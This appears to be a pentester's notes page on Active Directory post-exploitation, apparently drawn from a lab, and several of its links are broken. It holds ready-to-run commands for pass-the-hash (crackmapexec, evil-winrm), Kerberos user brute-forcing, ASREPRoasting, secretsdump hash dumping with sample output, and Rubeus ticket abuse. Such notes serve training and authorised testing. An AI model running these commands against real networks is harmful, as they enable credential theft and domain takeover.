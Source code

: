 # Post-Exploitation

You should approach to first machine in AD as regular standalone windows machine. Lateral movement or privilege escalation as well.

You can do post exploitation steps as follows:

Check groups where the user is in. Check the user in some privileged group.

Check another users in the domain.

Search files in the system for finding passwords, important notes and information, mail etc.

Check services on the system.

Some services contains cleartext passwords, hashes in some files.

Extract hashes, secrets, kerberos tickets with mimikatz etc. (requires system shell)

{% content-ref url="../password-extraction.md" %}
[password-extraction.md](../password-extraction.md)
{% endcontent-ref %}

Try pass the hash methods like using psexec or crackmapexec from impacket, evil-winrm, xfreerdp etc. (If the target user has not Administrator rights, you cannot get shell with impacket).

Try cracking extracted hashes.

{% content-ref url="../password-cracking/" %}
[password-cracking](../password-cracking/)
{% endcontent-ref %}

Check SPNs. If there is SPN in system, try extract and crack it.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

Check GMSA. If there is gmsa account in the system, try extract and crack it.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

If you have cleartext password you can use Spray-Passwords.ps1 to identify the another user is using the same password.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

Check the user has capabilities for exploitable GPO.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

You can try recent AD exploits to get domain admin privileges.

## Crackmapexec

```
# pass the hash
crackmapexec smb --local-auth 10.11.1.0/24 -H ee0c207898a5bccc01f38115019ca2fb -u Administrator
```

## Kerbrute

> This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.

```
# enum valid usernames
./kerbrute userenum userlist.txt -d spookysec.local --dc 10.10.70.25
```

![](<../../.gitbook/assets/image (32) (2) (1).png>)

## **ASREPRoasting**

> After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
>
> Impacket has a tool called "GetNPUsers.py" that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames

### Impacket-GetNPUsers

```
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format john
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat
```

![](<../../.gitbook/assets/image (40) (2).png>)

Crack the hash with whatever format you chose

```
svc-admin : management2005
```

## Impacket-secretsdump

> We can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that a user account (that is synced with the domain controller) has to offer

```
impacket-secretsdump backup@spookysec.local

Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
.
.
.
.
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
```

This command dumps SAM hashes using the the Administrator's hash as a PTH method rather than entering a password

```
impacket-secretsdump Administrator@10.11.1.123 -hashes '3fee04b01f59a1001a366a7681e95699:3fee04b01f59a1001a366a7681e95699'
```

## Pass-The-Hash

### Evil-WinRM

> method of attack could allow us to authenticate as the user without the password

```
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

## Rubeus

{% code overflow="wrap" %}
```bash
# gets tgt of machine account
.\Rubeus.exe tgtdeleg /nowrap
# decode it to .kirbi file
cat b64hash | base64 -d > m.kirbi
# convert ticket to ccache file
impacket-ticketconverter m.kirbi m.ccache
export KRB5CCNAME=`pwd`/m.ccache
klist
# syncronize time just in case
sudo ntpdate -u IP
# dump hashes
impacket-secretsdump domain.local/DC-NAME\$@dc-name.domain.local -dc-ip domain.local -no-pass -k
```
{% endcode %}
